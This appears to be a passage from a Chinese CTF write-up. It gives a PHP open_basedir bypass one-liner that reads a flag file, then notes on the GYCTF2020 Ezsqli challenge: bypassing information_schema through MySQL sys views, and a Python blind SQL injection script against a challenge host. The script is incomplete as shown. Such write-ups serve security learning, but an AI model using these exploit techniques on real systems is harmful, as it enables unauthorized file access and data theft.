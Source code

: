 ```python
```



第三关：

bypass  open_basedir

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```



<a href="https://www.guildhab.top/?p=677" target="_blank">大佬对这个题的分析，写的挺详细的</a>



## [GYCTF2020] Ezsqli

**知识点：**

1.  **bypass information_schema**
2.  **无列名注入**



**由于performance_schema过于复杂，所以mysql在5.7版本中新增了sys 数据库，基础数据来自于performance_chema和information_schema两个库，本身数据库不存储数据。**

**sys数据库中的以下三个视图中存储了表名table_name:**

- **sys.schema_auto_increment_columns #存在自增主键的表会出现在此视图**
- **sys.schema_table_statistics_with_buffer #数据来源视图**
- **sys.x$schema_table_statistics_with_buffer #数据来源视图**



```
import requests
import time
import string
url="http://334f9701-ac6e-4158-b91b-450d336d1ca1.node3.buuoj.cn/"
flag=""
'''
for i in range(1,50):#flag长度
    print(i,":")
    low=32
    high=128
    mid = (low+high)//2
    while low<=high:
        #print(mid)
    #for j in range(32,128):#可见字符长度
    	#payload="0^(ascii(substr(select database()),{0},1))>{1})".format(i,mid)
    	#payload="0^(ascii(substr(select version()),{0},1))>{1})".format(i,mid)
        #payload="0^(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{0},1))>{1})".format(i,mid)
        data={
            "id":payload
            }
        t = requests.post(url,data=data)
        #print(t.apparent_encoding)
        t.encoding="Windows-1252"
        print(t.text)
        if("Nu1L" in t.text):
            low=mid+1
            mid = (low+high)//2
        else:
            high=mid-1
            mid = (low+high)//2
    flag+=chr(high+1)
```